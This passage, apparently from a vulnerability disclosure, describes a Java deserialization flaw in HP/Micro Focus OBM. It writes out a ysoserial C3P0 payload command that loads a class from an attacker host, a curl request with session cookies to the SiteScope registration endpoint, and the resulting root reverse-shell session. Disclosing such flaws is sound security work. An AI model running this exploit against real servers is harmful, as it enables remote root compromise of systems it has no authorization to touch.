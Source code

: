 Generate the payload with our newline compiled *ysoserial*:

```sh
java -jar ysoserial-0.0.6-SNAPSHOT-all-c3p0-0.9.1.2.jar C3P0 "http://10.10.10.1:4444/:ExploitClass" > /tmp/payload.ser
```

And finally send the request to the server:

```sh
COOKIE='Cookie: JSESSIONID=xQJJmHDwOQMlAL93PaLPE4PA; LWSSO_COOKIE_KEY=mqx8GAJdW7M8dh5bO99hiZjXAgOHmdteaLsy_c9N77F6n2fFB_XWpe0wDHnpG-x2RbOHNm3H7hjHsmYpRc4PPg2ohEFN7duztvJD0M_u3GUcg_YUJPy5c6ewbqi61FRllh0AoNwAb5K-1fN-uRVK0c8yEVVIkBbxn9vxsCEhofRbZNdtnDQMb3WUeb7yInwRAzfPICWMnE5iuJ_TTyTDlw..;'

curl -i -s -k -X $'POST' \
	-H $'Host: 10.10.10.99' \
	--data-binary @/tmp/payload.ser \
	-H $'Content-Type: application/octet-stream' -H 'Expect:' -H "$COOKIE"  \
   $'https://10.10.10.99/legacy/topaz/sitescope/conf/registration'
```
> Snippet G: *curl* requests to trigger the Java deserialization


This results in the a request for *ExploitClass* received by the Python web server, followed by our reverse shell:

```sh
10.10.10.99 - - [] "GET /ExploitClass.class HTTP/1.1" 200 -
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.99] 55340
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7.nat 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
ls
hpbsmd.pid
libwrapper.so
nannyWrapperRunner.sh
wrapper
wrapper.jar
pwd
/opt/HP/BSM/supervisor/wrapper
```

Note that this vulnerability can only be exploited by an attacker who is logged in to the main web application. Unfortunately for the attacker, since the *diagnostics* account discussed in **Vulnerability #1** cannot be used to login to the main web application, this vulnerability remains exploitable only if authentication is achieved through other means.

In order to run the exploit in **Snippet G**, first authenticate to the main web application on port 443 using a valid account, and then change the *COOKIE* variable to the *LWSSO_COOKIE_KEY* received after authentication before executing the *curl* command.

Both Linux and Windows versions of OBM are affected by this vulnerability.
